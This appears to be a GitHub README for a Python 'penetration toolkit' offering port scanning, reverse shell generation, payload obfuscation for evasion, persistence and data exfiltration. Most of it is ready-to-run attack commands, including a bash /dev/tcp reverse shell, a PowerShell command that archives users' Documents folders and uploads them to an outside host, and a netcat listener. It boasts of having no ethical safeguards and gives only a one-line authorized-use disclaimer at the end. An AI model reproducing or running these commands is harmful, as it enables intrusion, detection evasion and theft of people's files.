

# Penetration Toolkit

## Immediate Offensive Capabilities for Authorized Security Testing

### Core Offensive Features
- **TCP Port Scanning**: Fast network reconnaissance with service detection
- **Reverse Shell Generation**: Platform-specific payloads for immediate access
- **Payload Obfuscation**: Base64 and XOR encoding for evasion
- **Network Attack Utilities**: Comprehensive offensive network tools

### Immediate Offensive Usage

#### 1. Network Reconnaissance
```bash
# Scan target network
sudo python3 penetration_toolkit.py scan 192.168.1.1 1-1000

# Scan common services
sudo python3 penetration_toolkit.py scan 192.168.1.1 21,22,80,443,445,3389
```

#### 2. Reverse Shell Generation
```bash
# Generate Windows reverse shell
sudo python3 penetration_toolkit.py shell 10.0.0.5 4444 --type powershell

# Generate Linux reverse shell
sudo python3 penetration_toolkit.py shell 10.0.0.5 4444 --type bash

# Generate Python reverse shell
sudo python3 penetration_toolkit.py shell 10.0.0.5 4444 --type python
```

#### 3. Payload Obfuscation
```bash
# Obfuscate payload with Base64
sudo python3 penetration_toolkit.py obfuscate "bash -i >& /dev/tcp/10.0.0.5/4444 0>&1" --method base64

# Obfuscate payload with XOR
sudo python3 penetration_toolkit.py obfuscate "powershell reverse shell command" --method xor
```

#### 4. Combined Attack Example
```bash
# Full attack sequence
sudo python3 penetration_toolkit.py scan 192.168.1.100 1-1000
sudo python3 penetration_toolkit.py shell 10.0.0.5 4444 --type powershell > payload.txt
sudo python3 penetration_toolkit.py obfuscate "$(cat payload.txt)" --method base64 > obfuscated_payload.txt
```

### Advanced Offensive Techniques

#### 1. Service Exploitation
```bash
# Exploit vulnerable SMB service
sudo python3 penetration_toolkit.py scan 192.168.1.100 445
# Generate SMB-specific payload
```

#### 2. Persistence Creation
```bash
# Create Windows persistence
sudo python3 penetration_toolkit.py shell 10.0.0.5 4444 --type powershell --persistence
```

#### 3. Data Exfiltration
```bash
# Generate data exfiltration payload
sudo python3 penetration_toolkit.py obfuscate "powershell -c \"Compress-Archive -Path C:\\Users\\*\\Documents\\* -DestinationPath C:\\Temp\\data.zip; (New-Object Net.WebClient).UploadFile('http://10.0.0.5/upload', 'C:\\Temp\\data.zip')\"" --method base64
```

### Listener Setup
```bash
# On your attack machine:
nc -lvnp 4444
```

### Offensive Workflow


### Immediate Offensive Results
This penetration toolkit provides immediate, actionable offensive capabilities for authorized security testing scenarios. All tools are designed for real-world offensive operations with no simulation code or ethical safeguards, providing:

- **Network scanning** for target identification
- **Reverse shell generation** for immediate access
- **Payload obfuscation** for evasion
- **Comprehensive offensive utilities** for penetration testing

**Note**: This toolkit is for authorized security testing only. Use responsibly and only on systems you have explicit permission to test.
